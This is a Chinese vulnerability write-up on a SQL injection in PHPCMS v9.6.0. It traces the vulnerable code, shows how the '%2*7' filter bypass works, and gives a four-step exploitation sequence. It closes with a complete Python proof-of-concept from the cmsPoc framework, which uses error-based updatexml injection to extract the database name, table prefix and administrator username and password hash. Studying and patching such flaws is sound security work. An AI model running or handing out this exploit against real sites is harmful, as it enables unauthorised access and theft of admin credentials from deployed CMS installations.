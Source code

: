 ```yaml
---
title: "PHPCMS v9.6.0 wap模块sql注入漏洞分析"
date: 2017-08-04 14:19:51
tags: [php,代码审计,sql注入]
categories: Web Security
copyright: true
---
```

本文首发于:[PHPCMS v9.6.0 wap模块sql注入漏洞分析](https://chybeta.github.io/2017/08/04/%C2%96PHPCMS-v9-6-0-wap%E6%A8%A1%E5%9D%97sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
<!-- more -->
# 漏洞分析

在/phpcms/modules/content/down.php中，约莫第11行：
```php
public function init() {
	$a_k = trim($_GET['a_k']);
	if(!isset($a_k)) showmessage(L('illegal_parameters'));
	$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
	if(empty($a_k)) showmessage(L('illegal_parameters'));
	unset($i,$m,$f);
	parse_str($a_k);
	if(isset($i)) $i = $id = intval($i);
	if(!isset($m)) showmessage(L('illegal_parameters'));
	if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
	if(empty($f)) showmessage(L('url_invalid'));
	$allow_visitor = 1;
	$MODEL = getcache('model','commons');
	$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
	$this->db->table_name = $tablename.'_data';
	$rs = $this->db->get_one(array('id'=>$id));
```
首先，通过GET方法得到参数`$a_k`。在经过`sys_auth`解密(里面有个DECODE)后，对`$a_k`进行了一次parse_str($a_k)，parse_str()会把字符串解析到对ing的变量中。在经过解析后，通过语句`$rs = $this->db->get_one(array('id'=>$id));`将变量id带入查询。所以目标是寻找一个能加密的地方，并且能够回显给我们，这样就能构造参数$a_k，并造成注入。

在 /phpcms/modules/attachment/attachments.php 中，约莫第239行
```php
public function swfupload_json() {
		$arr['aid'] = intval($_GET['aid']);
		$arr['src'] = safe_replace(trim($_GET['src']));
		$arr['filename'] = urlencode(safe_replace($_GET['filename']));
		$json_str = json_encode($arr);
		$att_arr_exist = param::get_cookie('att_json');
		$att_arr_exist_tmp = explode('||', $att_arr_exist);
		if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {
			return true;
		} else {
			$json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;
			param::set_cookie('att_json',$json_str);
			return true;			
		}
	}
```

通过GET方法得到参数$arr['src']，先经过`safe_replace()`过滤。我们先看一下`safe_replace()`函数。
```php
function safe_replace($string) {
	$string = str_replace('%20','',$string);
	$string = str_replace('%27','',$string);
	$string = str_replace('%2527','',$string);
	$string = str_replace('*','',$string);
	$string = str_replace('"','&quot;',$string);
	$string = str_replace("'",'',$string);
	$string = str_replace('"','',$string);
	$string = str_replace(';','',$string);
	$string = str_replace('<','&lt;',$string);
	$string = str_replace('>','&gt;',$string);
	$string = str_replace("{",'',$string);
	$string = str_replace('}','',$string);
	$string = str_replace('\\','',$string);
	return $string;
}
```
将`%27`等关键字过滤。但是利用“\*”会被直接过滤为空这点，假设传入的$string为`%2*7`,则在替换后，会变成`%27`，从而获得单引号，其余可类似绕过。

接下来继续运行。若不满足条件，会进入set_cookie()函数，具体如下：
```php
public static function set_cookie($var, $value = '', $time = 0) {
	$time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);
	$s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;
	$var = pc_base::load_config('system','cookie_pre').$var;
	$_COOKIE[$var] = $value;
	if (is_array($value)) {
		foreach($value as $k=>$v) {
			setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
		}
	} else {
		setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
	}
}
```
其中，会将传入的参数进行一次加密sys_auth($value, 'ENCODE')，这正好满足我们前面的需求。

为了能访问到swfupload_json()，我们需要一个cookie。这样在访问时才不会直接跳转到登陆也main。接下来就是寻找能够给我们提供这次setcookie机会的接口。比如说wap模块。
在 /phpcms/modules/wap/index.php 中，约莫第6行
```php
function __construct() {		
	$this->db = pc_base::load_model('content_model');
	$this->siteid = isset($_GET['siteid']) && (intval($_GET['siteid']) > 0) ? intval(trim($_GET['siteid'])) : (param::get_cookie('siteid') ? param::get_cookie('siteid') : 1);
	param::set_cookie('siteid',$this->siteid);
```
通过GET方法得到$siteid，然后传到了set_cookie()函数中，满足条件。

# 利用
## 利用步骤
+ 访问 /index.php?m=wap&a=index&siteid=1 。获取响应头的set-Cookie字段。
+ 将前一步获取到的字段赋值给userid_flash，作为POST参数。访问 /index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=【payload】
+ 获取返回头的set—Cookie字段，此即为加密后的payload
+ 访问 /index.php?m=content&c=down&a_k=【加密后的payload】，注入成功。

## [cmsPoc](https://github.com/CHYbeta/cmsPoc)
开源CMS渗透测试框架 [cmsPoc](https://github.com/CHYbeta/cmsPoc)中已集成了利用脚本 v960_sqlinject_getpasswd.py。

```python
from lib.core.data import target
import requests,sys,urllib
def poc():
	try:
		url = target.url
		sqli_prefix = '%*27an*d%20'
		sqli_info = 'updatexml(1,concat(1,(user())),1)'
		sqli_password1 = 'updatexml(1,concat(1,(select concat(0x6368796265746124,username,0x3a,password,0x3a,encrypt,0x6368796265746124) from '
		sqli_password2 = '_admin limit 0,1)),1)'
		sqli_padding = '%23%26m%3D1%26f%3Dwobushou%26modelid%3D2%26catid%3D6'

		step1 = url + '/index.php?m=wap&a=index&siteid=1'
		r = requests.get(step1)
		post = {"userid_flash":r.cookies["GPYAh_siteid"]}
		print('[+] Get Cookie : ' + r.cookies["GPYAh_siteid"])

		step2  = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=" + sqli_prefix + sqli_info+ sqli_padding
		r = requests.post(step2,data=post)
		sqli_payload = r.cookies["GPYAh_att_json"]
		print('[+] Get SQLi Payload : ' + sqli_payload)

		step3 = url + '/index.php?m=content&c=down&a_k=' + sqli_payload
		html = requests.get(step3).text

		db_start = html.find("SELECT * FROM `") + len("SELECT * FROM `")
		db_end = html.find("`.`")
		Database = html[db_start:db_end]
		print("[+] Get Database Name: "+ Database)

		tableprefix_start = html.find("`.`") + len("`.`")
		tableprefix_end = html.find("_download_data")
		tableprefix = html[tableprefix_start:tableprefix_end]
		print("[+] Get Table Prefix: "+ tableprefix)

		startIndex = html.find("XPATH syntax error: '") + len("XPATH syntax error: '")
		endIndex = html.find("' <br /> <b>MySQL Errno")
		database_user = html[startIndex:endIndex]
		print("[+] Get Database-user Information : " + database_user)

		step4  = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=" + sqli_prefix + sqli_password1+ tableprefix + sqli_password2 + sqli_padding
		r = requests.post(step4,data=post)
		sqli_payload = r.cookies["GPYAh_att_json"]

		setp5 = url + '/index.php?m=content&c=down&a_k=' + sqli_payload
		html = requests.get(setp5).text
		startIndex = html.find("XPATH syntax error: '") + len("XPATH syntax error: '")
		endIndex = html.find("' <br /> <b>MySQL Errno")
		admin_passwd = html[startIndex:endIndex]
		print("[+] Get User Passwd: " + admin_passwd)

		print("\033[33m[*] Complete this task: {} \033[0m".format(target.url))

	except KeyError as e:

		print("\033[31m[!] This poc doesn't seem to work.Please try another one.\033[0m")
```

![](https://github.com/CHYbeta/cmsPoc/blob/master/tty.gif?raw=true)
